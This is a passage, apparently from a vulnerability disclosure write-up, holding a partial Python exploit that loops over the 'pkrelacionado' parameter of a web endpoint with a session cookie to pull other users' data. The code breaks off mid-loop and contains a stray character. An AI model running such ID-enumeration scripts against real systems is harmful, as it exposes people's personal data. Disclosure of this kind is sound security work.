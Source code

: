 ![PoC](/assets/images/CVEs/poc1.png)

#### Exploitation Code

Below is a basic Python exploit that demonstrates how an attacker could extract user data by modifying the pkrelacionado parameter:

```python
import requests
from bs4 import BeautifulSoup

url = 'https://URL/h6web/ha_datos_hermano.php'

cookies = {
    "PHPSESSID": "be52565aea157fd5a1512345b654338129b55"
}q

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

for i in range(1, 5):  # Iterate over different ID values
    data = {
        "pkrelacionado": i
    }
```